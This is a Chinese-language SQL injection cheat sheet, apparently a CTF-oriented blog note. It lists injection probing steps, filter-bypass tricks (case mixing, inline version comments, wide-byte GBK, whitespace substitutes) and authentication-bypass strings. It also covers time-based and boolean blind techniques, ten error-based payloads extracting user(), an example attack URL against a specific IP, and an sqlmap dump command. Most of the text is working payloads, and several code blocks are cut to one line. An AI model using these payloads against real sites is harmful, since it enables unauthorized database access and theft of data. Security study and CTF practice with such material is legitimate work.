sql注入备忘录
sql注入初探
1.尝试注入，观察网页回显
可以用以下语句对一个可能的注入点进行测试

通过注入查看服务器返回的信息主要观察是否返回500,且判断是因为sql语句导致的错误，而不会解析错误而导致。
方法：
- 如果 ‘ 导致错误，尝试' 能否成功（因为反斜杠在Mysql中取消了单引号）
- 尝试注释掉’就会返回成功消息,如–+
- 如果’ 是不允许，比较有效与无效系统变量之间的比较，类似：@@version vs @@version’
或在无效函数与有效函数之间比较：类似：SLEP(5) vs @@SLEEP(5) - 如果你的输入在()中，测试input)%23
- 如果正常输入只是一个整数，可以尝试减去一些量，查看减法是否有效，类似:id=460-5
- 尝试查看偶数量的引号是否会导致成功消息（例如460’’或460-‘’），并且不均匀的数量会导致错误（例如 460’或460-‘’’）。
2.判断注入点
1 | SELECT user_input FROM tournament ORDER BY region; |
猜测sql查询语句
可能是where , limit , order by .....
3.判断过滤字符
绕过过滤，或者使用剩下未过滤字符构造Sql语句
异或判断注入过滤
^(length('union')>0)，如果union被过滤语句变为^(length('')>0)为假，因为^为真。网页正常回显，则union被过滤
Example:http://123.206.87.240:9004/1ndex.php?id=1%27^(length(%27union%27)>0)%23
4.构造可脱裤sql语句
常用符号
1 | 注释符 ： # /* -- ;%00 反引号 |
常用过滤绕过
绕过单引号

大小写绕过
?id=1+UnIoN+SeLecT+1,2,3--
替换绕过
?id=1+UNunionION+SEselectLECT+1,2,3--
注释绕过
?id=1+un/**/ion+se/**/lect+1,2,3--
特殊嵌入绕过
?id=1/*!UnIoN*/SeLecT+1,2,3--
宽字节注入
SQL注入中的宽字节国内最常使用的gbk编码，这种方式主要是绕过addslashes等对特殊字符进行转移的绕过。反斜杠()的十六进制为%5c，在你输入%bf%27时，函数遇到单引号自动转移加入，此时变为%bf%5c%27，%bf%5c在gbk中变为一个宽字符“縗”。%bf那个位置可以是%81-%fe中间的任何字符。不止在sql注入中，宽字符注入在很多地方都可以应用。
MySQL版本号字符
Examples:UNION SELECT /*!50000 5,null;%00*//*!40000 4,null-- ,*//*!30000 3,null-- x*/0,null--+SELECT 1/*!41320UNION/*!/*!/*!00000SELECT/*!/*!USER/*!(/*!/*!/*!*/);
这样的查询语句是可以执行的，我理解为类似Python中第一行注释指定解析器一样#!/bin/sh
对于小于或等于版本号的语句就会执行
例如目前的Mysql版本为5.7.17那么/!50717/及其以下的语句即可执行
字符编码绕过
前段时间看到ph师傅的博客是讨论mysql字符编码的文章，大概意思如下，原文在这里
当出现有以下代码时，指设置了字符编码为utf-8，但并不是全部为utf-8，而在具体的转换过程中会出现意外的情况，具体可以看ph师傅的文章
$mysqli->query(“set names utf8”);
在sql查询中
test.php?username=admin%e4中的%e4会被admin忽略掉而绕过了一些逻辑，还有一些类似于$e4这样的字符如%c2等
绕空格
特殊字符绕过空格

Example:'%0AUNION%0CSELECT%A0NULL%20%23
括号绕过空格

Example:UNION(SELECT(column)FROM(table))
and/or后插入字符绕过空格
任意混合+ – ~ !可以达到绕过空格的效果（可以现在本地测试，混合后需要的奇偶数可能不同）SELECT DISTINCT(db) FROM mysql.db WHEREHost='localhost' and-++-1=1;需要偶数个–SELECT DISTINCT(db) FROM mysql.db WHEREHost='localhost' and!!~~~~!1=1;需要奇数个！
其实以下的字符都可以测试

注释符&引号
1 | SELECT DISTINCT(db) FROM mysql.db WHERE `Host`='localhost' and/**/1=1; |
编码绕过

关键字绕过
测试用例information_schema.tables

认证绕过
绕过语句：’=’
1 | select data from users where name="=" |
绕过语句：’-‘
1 | select data from users where name=''-'' |
比如登录的时候需要输入email和passwd，可以这样输入
email=’’&password=’’
类型转换
1 | ' or 1=true |
实战正则过滤绕过

相关函数
MID（）—从文本字段中提取字符
SELECT MID(column_name,start[,length]) FROM table_name;
column_name 必需。要提取字符的字段。
start 必需。规定开始位置（起始值是 1）。
length 可选。要返回的字符数。如果省略，则 MID() 函数返回剩余文本。

limit()—返回前几条或者中间某几行数据
select * from table limit m,n;
其m指记录始index0始表示第条记录 n指第m+1条始取n条

concat、concat_ws、group_concat
MySQL的concat函数在连接字符串的时候，只要其中一个是NULL,那么将返回NULL
Count()—聚集函数，统计元祖的个数

rand()—用于产生一个0~1的随机数

floor()—向下取整

group by—依据我们想要的规则对结果进行分组
safe_mode模块会对使用造成影响

length()—返回字符串的长度

Substr()—截取字符串 三个参数 （所要截取字符串，截取的位置，截取的长度）

Ascii()—返回字符串的ascii码

时间盲注
1 | sleep(5)和benchmark(1000000,sha(1)) |

select * from users where id = 1 or if(ord(substring(version()from(1)for(1)))=53,sleep(2),1);

布尔盲注
常用拼接
1 | where username=''+'' |
1 | 1. select if(1=2,'true','false'); |
十个报错注入
1.floor()
select * from test where id=1 and (select 1 from (select count(*),concat(user(),floor(rand(0)*2))x from information_schema.tables group by x)a);

2.extractvalue()
select * from test where id=1 and (extractvalue(1,concat(0x7e,(select user()),0x7e)));

3.updatexml()
select * from test where id=1 and (updatexml(1,concat(0x7e,(select user()),0x7e),1));

4.geometrycollection()
select * from test where id=1 and geometrycollection((select * from(select * from(select user())a)b));

5.multipoint()
select * from test where id=1 and multipoint((select * from(select * from(select user())a)b));

6.polygon()
select * from test where id=1 and polygon((select * from(select * from(select user())a)b));

7.multipolygon()
select * from test where id=1 and multipolygon((select * from(select * from(select user())a)b));

8.linestring()
select * from test where id=1 and linestring((select * from(select * from(select user())a)b));

9.multilinestring()
select * from test where id=1 and multilinestring((select * from(select * from(select user())a)b));

10.exp()
select * from test where id=1 and exp(~(select * from(select user())a));

布尔盲注脚本
1 | Python |

消毒,的时间盲注
条件消毒了,号
sql与if语句有相同作用语句为select case when xxx then xxx else xxx end;
1 | # -*- coding:utf-8 -*- |
sqlmap
payload:sqlmap -r ~/1.txt -v 3 --technique T --level 3 --risk 3 --tamper if2casewhen,ifnull2casewhenisnull,commalessmid,commalesslimit -D web15 -T flag --dump MySQL --dbs
